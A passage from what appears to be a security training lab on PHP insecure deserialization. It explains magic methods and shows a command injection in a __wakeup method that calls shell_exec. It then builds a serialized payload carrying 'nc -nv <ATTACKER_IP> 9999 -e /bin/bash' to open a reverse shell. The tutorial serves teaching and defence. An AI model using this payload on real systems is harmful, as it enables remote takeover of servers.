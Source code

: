 In our example, `__construct` overrides the default PHP constructor, allowing us to specify what should happen when a new `UserSettings` object is created (in this case assigning values from the constructor's parameters). Defining `__sleep` for the `UserSettings` object means that whenever the object is `serialized` this function will be executed prior. Similarly, `__wakeup` is called right before the object is `deserialized`.

Knowing what these methods are, `__wakeup` sticks out to us. We can see that the function is appending a line to `/tmp/htbank.log` every time a user is `deserialized`, which should be each time user settings are imported into the website. What especially stands out here is the use of `shell_exec` with a variable that we control ( `$this->getName()` returns the `Name` property, which we can set).

Seeing that we can control part of the command that is passed to `shell_exec`, without any filters, this is an example of a simple command injection. If we set our name to begin with `";` we can break out of the `echo` command and run whatever other command we want.

* * *

## Getting a Reverse Shell

Knowing that a command injection should be possible, we can update `exploit.php` to set our name to `"; nc -nv <ATTACKER_IP> 9999 -e /bin/bash; #`

```php
...
echo base64_encode(serialize(new \App\Helpers\UserSettings('"; nc -nv <ATTACKER_IP> 9999 -e /bin/bash;#', '[email protected]', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg')));
...

```

We will run `exploit.php` again to get our new payload:

```shell
php exploit.php
TzoyNDoiQXBwXEhlbHBlcnNcVXNlclNldHRp...SNIP...d2ZkYSI7fQ==

```

We can update our local `UserSettings.php` to print out the entire command that will be passed to `shell_exec`, just to check if everything is good.

```php
...
    public function __wakeup() {
        print('echo "$(date +\'[%d.%m.%Y %H:%M:%S]\') Imported settings for user \'' . $this->getName() . '\'" >> /tmp/htbank.log');
        shell_exec('echo "$(date +\'[%d.%m.%Y %H:%M:%S]\') Imported settings for user \'' . $this->getName() . '\'" >> /tmp/htbank.log');
    }
...

```

#### Testing Locally
